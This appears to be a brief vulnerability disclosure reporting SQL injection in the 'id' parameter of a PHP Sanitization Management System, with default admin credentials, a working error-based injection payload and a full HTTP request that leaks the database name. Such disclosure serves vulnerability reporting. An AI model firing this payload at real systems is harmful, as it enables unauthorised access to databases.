 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: ep0ch

Login account: admin/admin123 (SuperAdmin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/admin/?page=services/view_service&id=

Vulnerability location: /php-sms/admin/?page=services/view_service&id=, id

dbname =sms_db,length=6

[+] Payload: /php-sms/admin/?page=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


exp:
```
GET /php-sms/admin/?page=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```


![image](https://user-images.githubusercontent.com/54017627/195977623-b958f949-210a-494b-8e25-0823176e045d.png)
